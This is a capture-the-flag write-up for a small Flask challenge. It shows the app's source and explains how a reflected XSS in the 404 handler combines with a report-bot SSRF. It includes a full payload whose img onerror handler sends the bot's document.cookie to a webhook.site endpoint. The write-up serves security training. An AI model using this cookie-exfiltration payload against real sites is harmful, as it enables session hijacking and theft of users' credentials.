




They say humans shall not take control to any of their resources. Can you prove them wrong without letting them know.
Provided docker environment.
This is a Flask webapp, with the relevant source code files.
app.pyfrom flask import Flask, request, render_template
from urllib.parse import unquote
from bot import visit_report
app = Flask(__name__)
@app.route("/")
def index():
return render_template("index.html")
@app.route("/api/submit", methods=["POST"])
def submit():
try:
url = request.json.get("url")
assert(url.startswith('http://') or url.startswith('https://'))
visit_report(url)
return {"success": 1, "message": "Thank you for your valuable submition!"}
except:
return {"failure": 1, "message": "Something went wrong."}
@app.errorhandler(404)
def page_not_found(error):
return "<h1>URL %s not found</h1><br/>" % unquote(request.url), 404
app.run(host="0.0.0.0", port=1337)
bot.pyfrom selenium import webdriver
from selenium.webdriver.chrome.options import Options
from selenium.webdriver.support.ui import WebDriverWait
def visit_report(url):
options = Options()
options.add_argument('headless')
options.add_argument('no-sandbox')
options.add_argument('disable-dev-shm-usage')
options.add_argument('disable-infobars')
options.add_argument('disable-background-networking')
options.add_argument('disable-default-apps')
options.add_argument('disable-extensions')
options.add_argument('disable-gpu')
options.add_argument('disable-sync')
options.add_argument('disable-translate')
options.add_argument('hide-scrollbars')
options.add_argument('metrics-recording-only')
options.add_argument('mute-audio')
options.add_argument('no-first-run')
options.add_argument('dns-prefetch-disable')
options.add_argument('safebrowsing-disable-auto-update')
options.add_argument('media-cache-size=1')
options.add_argument('disk-cache-size=1')
options.add_argument('user-agent=BugHTB/1.0')
browser = webdriver.Chrome('chromedriver', options=options, service_args=['--verbose', '--log-path=/tmp/chromedriver.log'])
browser.get('http://127.0.0.1:1337/')
browser.add_cookie({
'name': 'flag',
'value': 'CHTB{f4k3_fl4g_f0r_t3st1ng}'
})
try:
browser.get(url)
WebDriverWait(browser, 5).until(lambda r: r.execute_script('return document.readyState') == 'complete')
except:
pass
finally:
browser.quit()
With /api/submit endpoint, we can make the app do an HTTP request. We can see that bot.py uses a headless chrome browser to first call http://127.0.0.1:1337/ and add the flag to the cookie, but only for that domain. After that, our request is sent. We can create a custom endpoint using https://webhook.site and request this endpoint from the app.

And watch the webhook.

We get a hit.
We can see in app.py that in the 404 handler, there is an XSS. Whatever we put in url will get reflected in browser. We are going to use this later.

First idea would be to send a request to a remote endpoint, using https://webhook.site and grab the document.cookie, but that doesn’t work because the cookie is only stored for the domain 127.0.0.1. Since we have the XSS, we can send a request for 127.0.0.1 and use the XSS (within the domain of 127.0.0.1) to grab the cookie and send it to our remote endpoint. Effectively, we are using the SSRF to make the server do the request to itself.
http://127.0.0.1:1337/<script>document.write("<img src=x onerror=this.src='https://webhook.site/f769c238-a3f1-412e-90ed-f31a2031bbd5/?asdf='+document.cookie>")</script>
Here, we are injecting an image tag to the DOM and using the src error to send the cookie as a GET parameter with our remote endpoint (a simple fetch would also do the job :D).
We send this crafted string to the report form on the website and wait for the hit on our remote endpoint.

CHTB{th1s_1s_my_bug_r3p0rt}